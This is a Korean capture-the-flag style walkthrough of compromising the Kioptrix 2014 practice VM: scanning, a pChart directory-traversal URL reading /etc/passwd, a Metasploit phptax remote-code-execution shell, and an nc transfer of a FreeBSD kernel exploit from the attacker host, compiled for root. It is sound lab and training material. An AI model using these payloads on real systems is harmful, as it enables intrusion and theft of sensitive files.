 # Kioptrix 2014

Created: 2022년 6월 19일 오후 3:34
Tags: pentesting

[Kioptrix 2014 PAGE](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)

VMware Workstation

NAT network 192.168.142.0/24

Kali linux

---

VM이미지를 올리고 나서 IP를 찾아야함

Kali linux로 진행했으며, `*netdiscover*` 도구를 사용해봄

```bash
# netdiscover -r 192.168.142.0/24
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled.png)

VMware에 Kioptrix 2014 이미지만 있기 때문에 대상 IP는 192.168.142.130

이제 *Nmap*으로 스캔해보자

```bash
# nmap -sV -sC 192.168.142.130
```

> -sV : 열린 포트의 서버나 데몬의 버전정보를 스캔
-sC : 기본적인 스크립트를 사용 (—script=default와 동일)
> 

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%201.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%201.png)

웹 포트 80과 8080이 열려있고 Apache가 구동중인 것을 확인

80 포트로 접속해보자

```
http://192.168.142.130
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%202.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%202.png)

?? 뭐가 없음

8080 포트로 접속해보자

```
http://192.168.142.130:8080
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%203.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%203.png)

권한이 없다네.. 접근은 가능했던 80포트를 좀더 확인해보자

80 포트 웹 페이지 소스를 확인

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%204.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%204.png)

이상한 URL이 있다.. 접속해봄

```
http://192.168.142.130/pChart2.1.3/index.php
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%205.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%205.png)

뭔가 있는데.. 뭐가 뭔지 모르겠다. 버전 정보가 있어서 *searchsploit* 도구로 exploitDB 검색해봄

```bash
# searchsploit pchart
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%206.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%206.png)

pChart 2.1.3 취약점이 존재한다.. 버전도 딱맞음..

Path에 있는 *31173.txt* 내용을 확인해보니 Directory Traversal과 Reflected XSS 취약점이 있다.

```
# Exploit Title: pChart 2.1.3 Directory Traversal and Reflected XSS
# Date: 2014-01-24
# Exploit Author: Balazs Makany
# Vendor Homepage: www.pchart.net
# Software Link: www.pchart.net/download
# Google Dork: intitle:"pChart 2.x - examples" intext:"2.1.3"
# Version: 2.1.3
# Tested on: N/A (Web Application. Tested on FreeBSD and Apache)
# CVE : N/A

[0] Summary:
PHP library pChart 2.1.3 (and possibly previous versions) by default
contains an examples folder, where the application is vulnerable to
Directory Traversal and Cross-Site Scripting (XSS).
It is plausible that custom built production code contains similar
problems if the usage of the library was copied from the examples.
The exploit author engaged the vendor before publicly disclosing the
vulnerability and consequently the vendor released an official fix
before the vulnerability was published.

[1] Directory Traversal:
"hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd"
The traversal is executed with the web server's privilege and leads to
sensitive file disclosure (passwd, siteconf.inc.php or similar),
access to source codes, hardcoded passwords or other high impact
consequences, depending on the web server's configuration.
This problem may exists in the production code if the example code was
copied into the production environment.

Directory Traversal remediation:
1) Update to the latest version of the software.
2) Remove public access to the examples folder where applicable.
3) Use a Web Application Firewall or similar technology to filter
malicious input attempts.
```

Directory Traversal 내용을 보니 예제까지 친절하게 있다.. 고고

```bash
http://192.168.142.130/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%207.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%207.png)

아주.. 잘됨

Nmap으로 확인했을때 서버정보가 Apache/2.2.21 (FreeBSD) 였다. [해당 문서](https://www.freebsd.org/doc/handbook/network-apache.html)에서 설정파일의 위치를 확인할 수 있다.

확인한 경로를 pChart 취약점으로 확인해보자

```
http://192.168.142.130/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%208.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%208.png)

웹 포트 8080은 User-Agent가 Mozilla/4.0에서만 허용된다고 한다.

Fiddler로 User-Agent를 바꿔서 접속해보자

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%209.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%209.png)

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2010.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2010.png)

phptax라는 페이지가 나왔다. 바로 exploitDB를 검색해보자

```bash
# searchsploit phptax
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2011.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2011.png)

Remote Code Execution 취약점이 있다. exploit도 있는거 같음

*Metasploit* 도구를 이용해보자

```bash
# msfconsole
msf > search phptax
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2012.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2012.png)

```bash
msf > info exploit/multi/http/phptax_exec
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2013.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2013.png)

phptax_exec를 사용해보자. use로 장착!하고 set으로 options를 설정해준다.

```bash
msf > use exploit/multi/http/phptax_exec
msf exploit(multi/http/phptax_exec) > set RHOSTS 192.168.142.130
msf exploit(multi/http/phptax_exec) > set RPORT 8080
msf exploit(multi/http/phptax_exec) > exploit
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2014.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2014.png)

Command shell session 1 opened가 뜨면 성공! ls 명령어가 잘 되는지 확인해보자

근데 안되서 다시 시도했더니 세션이 2개 열려버렸다. 그래도 잘됨

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2015.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2015.png)

아주 잘됨 ㅎㅎ

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2016.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2016.png)

/root 경로에 congrats.txt를 확인하려 했더니.. 권한이 없다. 권한상승 ㄱㄱ

운영체제가 FreeBSD이다. 버전을 확인해보자

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2017.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2017.png)

9.0버전.. exploitDB로 확인해보자

```bash
# searchsploit freebsd 9.0
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2018.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2018.png)

와 권한상승이 두개나 있다. poc 코드까지 있음

Intel SYSRET Kernel Privilege Escalation을 써보자

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2019.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2019.png)

ㅎㅎ.. 마침 poc코드를 써보라고 gcc컴파일러랑 nc까지 설치되어있다.

nc를 이용해서 28718.c 코드를 전송하자

```bash
# nc -nvlp 9002 < /usr/share/exploitdb/exploits/freebsd/local/28718.c
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2020.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2020.png)

대기시켜놓고 익스플로잇한 쉘로가서 전송받는다.

```bash
cd /tmp
nc 192.168.142.131 9002 > exploit.c
gcc -o exploit exploit.c
```

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2021.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2021.png)

전송받은 코드를 컴파일하고 실행시키면.. root 권한 획득

![Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2022.png](Kioptrix%202014%20812e64320ddf465fb70960b85d41b272/Untitled%2022.png)

다시 congrats.txt를 열어본다. 끝